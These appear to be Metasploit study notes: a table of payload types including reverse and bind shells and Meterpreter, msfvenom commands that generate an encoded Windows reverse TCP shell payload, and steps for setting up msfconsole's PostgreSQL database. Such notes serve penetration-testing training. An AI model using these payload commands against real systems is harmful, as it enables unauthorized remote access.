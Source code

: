 |**Payload**|**Description**|
|---|---|
|`generic/custom`|Generic listener, multi-use|
|`generic/shell_bind_tcp`|Generic listener, multi-use, normal shell, TCP connection binding|
|`generic/shell_reverse_tcp`|Generic listener, multi-use, normal shell, reverse TCP connection|
|`windows/x64/exec`|Executes an arbitrary command (Windows x64)|
|`windows/x64/loadlibrary`|Loads an arbitrary x64 library path|
|`windows/x64/messagebox`|Spawns a dialog via MessageBox using a customizable title, text & icon|
|`windows/x64/shell_reverse_tcp`|Normal shell, single payload, reverse TCP connection|
|`windows/x64/shell/reverse_tcp`|Normal shell, stager + stage, reverse TCP connection|
|`windows/x64/shell/bind_ipv6_tcp`|Normal shell, stager + stage, IPv6 Bind TCP stager|
|`windows/x64/meterpreter/$`|Meterpreter payload + varieties above|
|`windows/x64/powershell/$`|Interactive PowerShell sessions + varieties above|
|`windows/x64/vncinject/$`|VNC Server (Reflective Injection) + varieties above|
# Encoding
- Encode with msfvenom
- Generating payload **without** encoding
	- `msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl`
- Generating payload **with** encoding
	- `msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai`

# Databases
- To keep track of results
- msfconsole has built in support for PostgreSQL database

Starting up database
1. Check status
	- `sudo service postgresql status`
2. Start PostgreSQL
	- `sudo systemctl start postgresql`
3. Initiate database
	- `sudo msfdbinit`

Connecting to database
-  `sudo msfdb run`

Database options
- `help database`

## Using database
